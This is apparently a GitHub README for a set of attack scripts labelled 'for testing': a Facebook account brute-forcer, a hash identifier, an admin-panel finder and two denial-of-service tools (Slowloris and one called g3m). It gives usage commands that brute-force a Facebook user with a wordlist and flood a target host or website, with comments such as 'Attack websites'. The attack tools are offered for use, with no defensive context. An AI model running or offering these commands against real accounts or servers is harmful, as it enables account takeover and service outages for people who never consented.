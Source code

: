 # Scripts for testing.

* fb-brute.pl = Bruteforce for Facebook
* hash_id_v1.1.py = Hash Identifier
* painel.pl = Admin Control Panel Finder
* slowloris.pl = Denial of Service
* g3m = Denial of Service

How to Install and use
----

 - fb-brute.pl:
```sh
$ sudo chmod +x fb-brute.pl
$ perl fb-brute.pl id-user-facebook wordlist.txt
```

`hash_id_v1.1.py`:
```sh
$ sudo chmod +x hash_id_v1.1.py
$ python2 hash_id_v1.1.py
``` 

 - painel.pl:
```sh
$ sudo chmod +x painel.pl
$ perl painel.pl
```

 - slowloris.pl:
```sh
$ sudo chmod +x slowloris.pl
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP
```

 - g3m:
```sh
$ sudo chmod +x g3m
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites
```
